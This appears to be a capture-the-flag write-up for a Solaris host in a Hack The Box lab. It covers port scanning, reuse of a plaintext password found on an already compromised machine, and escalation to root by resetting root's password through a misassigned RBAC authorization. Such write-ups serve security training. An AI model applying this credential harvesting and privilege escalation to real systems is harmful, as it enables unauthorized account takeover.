


I will repost the NMAP report from the previous page:

```
PORT      STATE SERVICE        REASON         VERSION
22/tcp    open  ssh            syn-ack ttl 64 OpenSSH 7.5 (protocol 2.0)
111/tcp   open  rpcbind        syn-ack ttl 64 2-4 (RPC #100000)
515/tcp   open  printer?       syn-ack ttl 64
6787/tcp  open  ssl/http       syn-ack ttl 64 Apache httpd 2.4.33 ((Unix) OpenSSL/1.0.2o mod_wsgi/4.5.1 Python/2.7.14)
|_http-server-header: Apache/2.4.33 (Unix) OpenSSL/1.0.2o mod_wsgi/4.5.1 Python/2.7.14
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Solaris Dashboard
|_Requested resource was https://192.168.21.13:6787/solaris/
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dev
| Subject Alternative Name: DNS:dev
| Issuer: commonName=dev/organizationName=Host Root CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-03-17T14:05:00
| Not valid after:  2031-03-15T14:05:00
| MD5:   910b:19ac:5d99:bc1c:06d4:f580:36b7:30d4
| SHA-1: 0fb1:8c22:9491:ca96:2a76:cf22:902e:0903:7711:24c2
| -----BEGIN CERTIFICATE-----
| MIIC1zCCAcGgAwIBAgIHAIJdlpff8TALBgkqhkiG9w0BAQswJTEVMBMGA1UEChMM
| SG9zdCBSb290IENBMQwwCgYDVQQDEwNkZXYwHhcNMjEwMzE3MTQwNTAwWhcNMzEw
| MzE1MTQwNTAwWjAOMQwwCgYDVQQDEwNkZXYwggEiMA0GCSqGSIb3DQEBAQUAA4IB
| DwAwggEKAoIBAQCu6/kVGLJToRz7In64dwp0665amU2Pkj4GDZxD7kqbPX6z7fjp
| BXfcJysV/vLEgT3yAxgXuI/XggXB4+HuCqk98LlSVem0r+G9tcA1sMXeFChEjoVF
| E1fuSHy0/9nNzhEM8IoROiNNmWEum7im075DvwrVWRwL6JOqi4o2EOueGh9Ob8pI
| l0Jb6CqVX6Af9j/vwA7l5iryQyv7sQPPXgegsmYOAP3OFNzI6x9VeV59cZknoLwx
| U+HJ2bQ/VpKRSLXZv6hyOf5fNdiXLY4Rpc5/Ce6o65MfCgXqZSRjA8S3NPZQGpna
| naYtf5/cY59CrEtWb2oripxP44Bb5vChAesbAgMBAAGjJzAlMA4GA1UdEQQHMAWC
| A2RldjATBgNVHSUEDDAKBggrBgEFBQcDATALBgkqhkiG9w0BAQsDggEBAFQG+0uU
| L3nNMj4/PNX/jadovBt+3DokgGPqSlHM/kDPOHtrKe02ehhJSlxiyqBkdNOudDb1
| 5ksJL9Wxz13sLpZTdrTbCP8k+UzufTdVdXw8Xjo3NGQAZBu4PQLI6EoaZH2tUkRp
| 6b2GMhUJRL+EEwoEr+sCy13VstdfGCJzwhyEPkUV0t2ZtqLAKRv/WEhIHiTsz6XH
| 2UyzA9oPCFWtdUaT7K5K/l/YqMJorXWdnHkNHs8TMzitXvVVaNX+ZCjGaKGlCYRD
| 5aoeIUG26C4bc0ojfWCh/nCXoc3sCVjgwtnRB/LlAaiLqY3Xmcb06n02HwoDagjL
| wLgsjBIuH7yE+v4=
|_-----END CERTIFICATE-----
6788/tcp  open  smc-http?      syn-ack ttl 64
6789/tcp  open  ibm-db2-admin? syn-ack ttl 64
12302/tcp open  rads?          syn-ack ttl 64
```

* * *

SSH:

As usual is kinda difficult to login via SSH without a valid set of credentials and the bruteforce will not be a pursuited path right now.

The credentials we found our from WIndows server unfortunately are not working out!

* * *

Port 111:

Not sure it is active since neither Metasploit nor Rpcinfo is giving something back:

```
msf6 auxiliary(scanner/misc/sunrpc_portmapper) > run

[*] dev02.htb:111         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


┌──(root㉿kali)-[/home/millycash/Downloads/Odyssey]
└─# rpcinfo dev02.htb    
rpcinfo: can't contact rpcbind: : RPC: Authentication error; why = Failed (unspecified error)
```

But NMAP shows that this service is open both on TCP & UDP:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Odyssey]
└─# nmap -sSUC -p111 dev02.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-12 13:47 CET
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 91.70% done; ETC: 13:47 (0:00:00 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 92.12% done; ETC: 13:47 (0:00:00 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 92.12% done; ETC: 13:47 (0:00:00 remaining)
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 92.12% done; ETC: 13:47 (0:00:00 remaining)
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 92.12% done; ETC: 13:47 (0:00:00 remaining)
Nmap scan report for dev02.htb (192.168.21.13)
Host is up (0.035s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
111/udp open  rpcbind

Nmap done: 1 IP address (1 host up) scanned in 14.85 seconds
```

I will momentally skip and move forward as I am unsure how much we could extract from this service anyway!

* * *

## Port 515:

This port is associated with printing world LPD. We can try to use PRET suite to interrogate this service.

But even here I had no luck with PRET, even here I don't think we can do much except maybe tamper the print queue.

&nbsp;

* * *

## Port 6787:

From nmap we can see that this is pointing to the solaris login on *<ins>https://192.168.21.13:6787/solaris/</ins>*:



* * *

## Final Destination:

After we gained root in DEV01 we found a strange folder called "Solaris" under Root directory:

```
bash-5.0# ls -al
total 48
drwx------  8 root root 4096 Jul 23  2021 .
drwxr-xr-x 19 root root 4096 Jul 25  2021 ..
lrwxrwxrwx  1 root root    9 Mar 25  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Mar 22  2021 .cache
drwx------  3 root root 4096 Jul 22  2021 .config
-rw-r--r--  1 root root   33 Mar 25  2021 flag.txt
drwxr-xr-x  3 root root 4096 Mar 23  2021 .julia
drwxr-xr-x  3 root root 4096 Mar 25  2021 .local
drwxr-xr-x  4 root root 4096 Jul 22  2021 .npm
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   74 Jul 22  2021 .selected_editor
drwxr-xr-x  2 root root 4096 Mar 25  2021 Solaris
bash-5.0# cd solars
bash: cd: solars: No such file or directory
bash-5.0# cd Solaris
bash-5.0# ls -al
total 16
drwxr-xr-x 2 root root 4096 Mar 25  2021 .
drwx------ 8 root root 4096 Jul 23  2021 ..
-rw-r--r-- 1 root root  117 Mar 25  2021 login.json
-rw-r--r-- 1 root root 1353 Mar 25  2021 manage.py
bash-5.0#
```

Now that python script seems like referring to a Solaris server, but we never found that IP:

```
bash-5.0# cat manage.py
import requests                                                                 
import json                                                                     

config_filename = "login.json"

try:
    with open(config_filename, 'r') as f:
        config_json = json.load(f)
except Exception as e:
    print(e)

#Build session
with requests.Session() as s:

    #Login to server
    login_url = "https://10.10.10.103:6788/api/authentication/1.0/Session"
    print("logging in to the Server")
    r = s.post(login_url, json=config_json, verify=False)
    print("The status code is: " + str(r.status_code))
    print("The return text is: " + r.text)

    # Get list of all SMF instances of the RAD module
    query_url0 = "https://10.10.10.103:6788/api/com.oracle.solaris.rad.smf/1.0/Service/system%2Frad/instances"
    print("Getting the list of SMF instances of the RAD module")
    r = s.get(query_url0)

    print("The status code is: " + str(r.status_code))
    print("The return text is: " + r.text)

    # Getting the status of the rad:remote module
    query_url1 = "https://10.10.10.103:6788/api/com.oracle.solaris.rad.smf/1.0/Instance/system%2Frad,remote/state"
    print("Getting the status of the rad:remote module")
    r = s.get(query_url1)
    print("The status code is: " + str(r.status_code))
    print("The return text is: " + r.text)
bash-5.0#
```

Which indeed is unreachable so must be some leftovers:

```
bash-5.0# ping -c3 10.10.10.103
PING 10.10.10.103 (10.10.10.103) 56(84) bytes of data.
From 192.168.21.11 icmp_seq=1 Destination Host Unreachable
From 192.168.21.11 icmp_seq=2 Destination Host Unreachable
From 192.168.21.11 icmp_seq=3 Destination Host Unreachable

--- 10.10.10.103 ping statistics ---
3 packets transmitted, 0 received, +3 errors, 100% packet loss, time 2047ms
pipe 3
bash-5.0#
```

But that login.json have some credentials, wonder if they might work on our solaris machine?

```
bash-5.0# cat login.json
{
  "username": "elpenor",
  "password": "enRH+/<r5y48@yJ",
  "scheme": "pam",
  "preserve": true,
  "timeout": -1
}
bash-5.0#
```

Damn it works!

```
┌──(root㉿kali)-[/home/millycash/Downloads/Odyssey]
└─# ssh elpenor@dev02.htb                                                                      
(elpenor@dev02.htb) Password: 
Last login: Thu Mar 25 10:51:22 2021
Oracle Corporation      SunOS 5.11      11.4    Aug 2018
elpenor@dev:~$
```

But it fails via web:  


Now starting we can identity the os as 5.11 SUNOS:

```
elpenor@dev:/tmp$ uname -a
SunOS dev 5.11 11.4.0.15.0 i86pc i386 i86pc
elpenor@dev:/tmp$
```

Here i had to check for tips and apparently there is a command that resemble the sudo -l(remember this crap is from 92'): [https://docs.oracle.com/cd/E36784\_01/html/E37123/rbaclist-auth-1.html](https://docs.oracle.com/cd/E36784_01/html/E37123/rbaclist-auth-1.html)

And we can see that our user have permission to reset passwords?

```
elpenor@dev:/$ auths list 
elpenor:
    solaris.account.activate
    solaris.admin.wusb.read
    solaris.mail.mailq
    solaris.network.autoconf.read
    solaris.passwd.assign
```

Googling that last permission seems like it is indeed the passwd commando see this reference: https://docs.oracle.com/cd/E19683-01/806-7612/6jgfmsvpj/index.html

And like so we can grab the last flag:

```
//Password change for root
elpenor@dev:/$ passwd root
New Password: 
Re-enter new Password: 
passwd: password successfully changed for root
elpenor@dev:/$


//Login and catch them all
elpenor@dev:/$ su - root
Password: 
Oracle Corporation      SunOS 5.11      11.4    Aug 2018
You have new mail.
root@dev:~# pwd
/root
root@dev:~# ls
flag.txt
root@dev:~# 
root@dev:~# 
root@dev:~# 
root@dev:~# cat flag.txt
ODYSSEY{50LaR15_R8AC_ADM1n15tRAT10n}
root@dev:~#
```